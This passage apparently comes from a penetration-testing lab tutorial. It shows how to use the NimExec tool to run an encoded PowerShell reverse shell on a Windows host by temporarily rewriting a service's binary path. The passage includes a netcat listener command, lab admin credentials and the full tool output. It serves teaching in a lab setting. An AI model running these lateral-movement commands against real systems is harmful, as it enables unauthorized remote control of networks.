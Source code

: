 `Nimexec` works simillary to `SharpNoPSExec`. Let's start our listener using `Netcat`:

```shell-session
BusySec@htb[/htb]$ nc -lvnp 8080
Listening on 0.0.0.0 8080
```

To execute `NimExec`, we must specify the administrator credentials with the options `-u <user>`, `-p <password>` and `-d <domain>`, and the target IP address `-t <ip>`. Alternatively, we can use the NTLM hash for authentication `-h <NT hash>` instead of the password. Finally, we must specify the payload to execute with the option `-c <cmd.exe> /c <reverseShell>`. We can generate the reverse shell payload using [revshells.com](https://revshells.com/), and to convert the plain text password to NTLM hash, we can use this [recipe](https://gchq.github.io/CyberChef/#recipe=NT_Hash\(\)) in CyberChef.

```powershell-session
PS C:\Tools> .\NimExec -u helen -d inlanefreight.local -p RedRiot88 -t 172.20.0.52 -c "cmd.exe /c powershell -e JABjAGwAaQBlAG...SNIP...AbwBzAGUAKAApAA==" -v

                                                                                             _..._
                                                                                          .-'_..._''.
   _..._   .--. __  __   ___         __.....__                          __.....__       .' .'      '.\
 .'     '. |__||  |/  `.'   `.   .-''         '.                    .-''         '.    / .'
.   .-.   ..--.|   .-.  .-.   ' /     .-''"'-.  `.                 /     .-''"'-.  `. . '
|  '   '  ||  ||  |  |  |  |  |/     /________\   \ ____     _____/     /________\   \| |
|  |   |  ||  ||  |  |  |  |  ||                  |`.   \  .'    /|                  || |
|  |   |  ||  ||  |  |  |  |  |\    .-------------'  `.  `'    .' \    .-------------'. '
|  |   |  ||  ||  |  |  |  |  | \    '-.____...---.    '.    .'    \    '-.____...---. \ '.          .
|  |   |  ||__||__|  |__|  |__|  `.             .'     .'     `.    `.             .'   '. `._____.-'/
|  |   |  |                        `''-...... -'     .'  .'`.   `.    `''-...... -'       `-.______ /
|  |   |  |                                        .'   /    `.   `.                               `
'--'   '--'                                       '----'       '----'

                                            @R0h1rr1m


[+] Connected to 172.20.0.52:445
[+] NTLM Authentication with Hash is succesfull!
[+] Connected to IPC Share of target!
[+] Opened a handle for svcctl pipe!
[+] Binded to the RPC Interface!
[+] RPC Binding is acknowledged!
[+] SCManager handle is obtained!
[+] Number of obtained services: 208
[+] Selected service is AppMgmt
[+] Service: AppMgmt is opened!
[+] Previous Service Path is: C:\Windows\system32\svchost.exe -k netsvcs -p
[+] Service config is changed!
[!] StartServiceW Return Value: 1053 (ERROR_SERVICE_REQUEST_TIMEOUT)
[+] Service start request is sent!
[+] Service config is restored!
[+] Service handle is closed!
[+] Service Manager handle is closed!
[+] SMB is closed!
[+] Tree is disconnected!
[+] Session logoff!
```
